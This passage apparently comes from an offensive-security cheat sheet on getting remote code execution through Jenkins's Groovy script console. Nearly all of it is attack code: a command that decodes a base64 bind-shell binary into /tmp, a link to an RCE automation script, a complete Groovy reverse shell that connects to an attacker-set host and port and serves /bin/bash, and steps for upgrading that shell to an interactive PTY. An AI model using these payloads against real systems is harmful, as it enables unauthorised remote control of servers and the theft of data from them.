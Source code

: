 For multiline shell commands, use the following shell syntax trick (example includes bind shell):

```java
def proc="sh -c \$@|sh . echo /bin/echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAAzgAAAAAAAAAkAQAAAAAAAAAQAAAAAAAAailYmWoCX2oBXg8FSJdSxwQkAgD96UiJ5moQWmoxWA8FajJYDwVIMfZqK1gPBUiXagNeSP/OaiFYDwV19mo7WJlIuy9iaW4vc2gAU0iJ51JXSInmDwU= | base64 -d > /tmp/65001".execute();
```

Automate it using [this script](./rce/jenkins_rce_admin_script.py).

Reverse shell from Groovy
-------------------------

```java
String host="myip";
int port=1234;
String cmd="/bin/bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

```

I'll leave this reverse shell tip to recover a fully working PTY here in case anyone needs it:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
^Z bg
stty -a
echo $TERM
stty raw -echo
fg
export TERM=...
stty rows xx columns yy
```
